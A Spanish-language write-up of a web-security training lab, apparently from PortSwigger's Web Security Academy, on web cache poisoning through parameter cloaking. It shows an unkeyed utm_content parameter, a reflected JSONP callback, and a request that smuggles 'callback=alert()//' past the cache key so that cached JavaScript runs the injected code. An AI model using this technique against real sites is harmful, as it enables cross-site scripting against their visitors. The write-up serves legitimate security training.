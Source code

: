```yaml
---
layout: default
title: 7 - Parameter cloaking
---
```

Sacamos con el param miner que el parámetro por GET : utm_content es unkeyed.



Cuando enviamos :

```
GET /?utm_content=xss&cb=1234
```

```
Set-Cookie: utm_content=xss;
```

Observamos que en `GET /js/geolocate.js` podemos controlar el parámetro callback que se refleja en :

```javascript
const setCountryCookie = (country) => { document.cookie = 'country=' + country; };
const setLangCookie = (lang) => { document.cookie = 'lang=' + lang; };
AQUÍ({"country":"United Kingdom"});
```

`GET /js/geolocate.js?callback=alert()//` 

```javascript
const setCountryCookie = (country) => { document.cookie = 'country=' + country; };
const setLangCookie = (lang) => { document.cookie = 'lang=' + lang; };
alert()//({"country":"United Kingdom"});
```

La cosa es que cachear la request de arriba no nos vale para hacer que la víctima ejecuta la alerta, porque la víctima no va a cargar una respuesta cacheada si no hace una solicitud a `GET /js/geolocate.js?callback=alert()//`

### Podemos usar find **rails param cloacking scanner** 

Que nos automatiza buscar parámetros parseados de distinta forma entre la caché y el backend.

Nos ha encontrado que si hacemos :

```http
GET /?utm_content=oxwyy8&utm_content=x;oxwyy8=akzldka&r3zxm7258=1
```

```http
GET /?utm_content=oxwyy8&r3zxm7258=1
```

```HTML
HIT

<link rel="canonical" href='//0ac4005e03a5a787803af3fa00a50045.web-security-academy.net/?utm_content=oxwyy8&amp;utm_content=x;oxwyy8=akzldka&amp;r3zxm7258=1'/>
```

Es decir que si pones dos utm_content no se incluyen los dos en la cache key y a continuación probaremos también que oxwyy8 se interpretará como otro argumento de la url por el backend


Asi que

`GET /js/geolocate.js?callback=setCountryCookie&utm_content=x;callback=alert()//

Nos devolverá 
```javascript
const setCountryCookie = (country) => { document.cookie = 'country=' + country; };
const setLangCookie = (lang) => { document.cookie = 'lang=' + lang; };
alert()//({"country":"United Kingdom"});
```
